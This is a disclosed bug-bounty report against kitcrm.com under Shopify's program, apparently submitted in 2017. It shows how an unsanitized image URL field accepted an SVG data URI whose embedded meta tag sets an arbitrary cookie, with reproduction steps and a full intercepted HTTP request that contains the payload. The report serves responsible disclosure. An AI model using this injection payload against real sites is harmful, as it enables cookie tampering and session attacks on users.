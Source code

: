 # Setting Arbitrary Cookie at kitcrm.com

## Report Details
- **Report ID**: 213991
- **URL**: https://hackerone.com/reports/213991
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-03-16T19:27:22.094Z
- **Disclosed**: 2017-08-23T16:26:45.691Z

## Reporter
- **Username**: dhaval
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hey

The `src` parameter of Image is not being sanitized which allows me to set cookies at `kitcrm.com`

#### Proof of Concept

1. Create a post at `https://kitcrm.com/pages/ID/manual_posts/new`
2. Select ` Schedule for Later `
3. Go to Scheduled Posts `https://kitcrm.com/pages/ID/manual_posts`
4. Click `Edit` on your post
5. Select any random photo and click "Update"
6. Intercept the request, Change the `manual_post[image_url]` to 
`data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><circle r='100'></circle><foreignObject><html xmlns='http://www.w3.org/1999/xhtml'><meta http-equiv='Set-Cookie' content='ppp=qqq' /></html></foreignObject></svg>`
7. Check `document.cookie` from the console

```
POST /pages/176625/manual_posts/30923 HTTP/1.1
Host: kitcrm.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://kitcrm.com/pages/176625/manual_posts/30923/edit
Cookie: 
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------153019791019196005451079530934
Content-Length: 3600

-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="utf8"

â
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="_method"

patch
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="authenticity_token"

HSRt0lrRnpOeD8pANBLJWen0cCihQV/eAhaCBvUR7XjZkiqSjXWDBvY+Qr/+fk9QjL7RI1aTOPciNpGQLnKBFg==
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[image_uploader]"; filename="medium_divider.png"
Content-Type: image/png

PNG


IHDRd¨ËfwsRGB®ÎéIDATxíÝAN1PqÄp
ØufÏ\#sGr*¤XVlç±ië÷ûR/èyzòC @ @ @ @ @ @ @ @ @ @ @ @ @ @ @,pýxûùãïÇýv}ÿ) @ÕFÿþ?¯vCæ!@=È{2%P ËÄ@ØC@ì±'S @`9²ÜJD=È{2%P ËÄ@ØC@ì±'S @`9²ÜJD=^öÓü¯£ÿ-ímó~s<Ì³u2P G¯×Í @`gëd- @^¯#@À<2ÏÖÉ8Z@½^7Gy
d	 p´9z½nóÈ<[' @àhrôzÝæ	(y¶N&@ÀÑ×è{fÖqs <D4Òtd H¤ @@ð} MGFÀ?øýùkh×÷¡ë]<d	RpD H¶ @@P GDY@d	RpD H¶ @@P GDY@d	RpD H¶ @@~Öã~»Êù"	\÷ÛÐõ.Î£ßå	$ÛJ @ (#"@, @²)8"È
$ÛH @ (#"@, @²)8"È
$ÛH @ (#"@, @²)8"È
$ÛH @ (#"@, @²)8"È
$ÛH @ (#"@, @²)8"È
$ÛH @ @ @ @ @ @ @ @ @ @ @ @ @ @ @ @þRàS¿i{IEND®B`
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[message]"

sdasda
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[link]"


-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[facebook]"

true
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[twitter]"

false
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[share_all]"

false
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[publish_at]"

1:00
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[publish_at_1i]"

2017
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[publish_at_2i]"

3
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[publish_at_3i]"

17
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[publish_at_4i]"

1
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[publish_at_5i]"

0
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="commit"

UPDATE
-----------------------------153019791019196005451079530934
Content-Disposition: form-data; name="manual_post[image_url]"

data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><circle r='100'></circle><foreignObject><html xmlns='http://www.w3.org/1999/xhtml'><meta http-equiv='Set-Cookie' content='ppp=qqq' /></html></foreignObject></svg>
-----------------------------153019791019196005451079530934--

```

## Attachments
No attachments
